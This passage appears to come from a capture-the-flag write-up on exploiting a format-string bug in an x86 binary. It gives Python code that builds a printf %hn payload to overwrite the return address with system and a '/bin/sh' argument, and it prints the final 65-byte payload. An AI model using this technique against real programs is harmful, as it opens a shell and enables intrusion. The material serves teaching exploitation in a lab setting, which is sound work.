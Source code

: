 We have to write out some 32-bit addresses (this an x86 challenge).  Printing `2^32` characters will take a very long time, fortunately `%n` supports modifiers; `h` can be used to specify the target address as a 16-bit `short`.  This means we can emit at most `2^16` characters, however we'll need two `%n` conversion specifiers and two address to write to.

```python
words = {}
words[system & 0xFFFF] = return_address
words[system >> 16]    = return_address + 2
words[binsh & 0xFFFF]  = return_address + 8
words[binsh >> 16]     = return_address + 10
```

The exploit is to write the address of the `system` call into the return address on the stack.  And then to write a pointer to a string (`/bin/sh`) as an argument to `system` (also on the stack).  The location of the first argument to `system` will be 8 bytes below in the stack, since 4 bytes below is where `system` expects to pop off the `ret` address.

Above, in the associative array (dictionary) `words`, is the high and low order bytes of the addresses of `system` and `/bin/sh` computed from the previous step.  The `words` index (e.g. `system & 0xFFFF`) is the value to be written to the assigned value (e.g. `return_address`).

This array is sorted by the index so that the next emit character count is greater than the first.  If this is not done correctly it is possible the 2nd, 3rd, or 4th values to be written to the stack cannot be computed because they are smaller than the accumulated `printf` internal character count.

```python
n=0; q=19; c=0; payload = b''
for i in sorted(words):
    payload += b'%' + str(i-n).encode() + b'x'
    payload += b'%' + str(q).rjust(2,'0').encode() + b'$hn'
    c += len(str(i-n)) + 2
    n += (i-n)
    q += 1

assert(c <= 25)
payload += b' '*(25-c)

for i in sorted(words):
    payload += p32(words[i])
```	

From the _Analysis_ section we determined there can only be a max of 65 characters used.  From that subtract off 16 for the 4 8-byte addresses at the end.  That leaves 49.  There are 4 `%XX$hn` conversion specifiers taking up a total of 24 bytes, leaving 25 bytes to specify the `%YYYYx` conversions to emit `YYYY` number of spaces.  The `assert` above will check that we didn't blow out our budget, and the following append to the `payload` fills in spaces so that all the addresses following that are aligned on the stack.

At this point it may help to look at the actual computed format string that is exactly 65 bytes long:

```python
b'%16896x%19$hn%3791x%20$hn%40627x%21$hn%20x%22$hn \xccu\x80\xff\xd4u\x80\xff\xceu\x80\xff\xd6u\x80\xff'
```

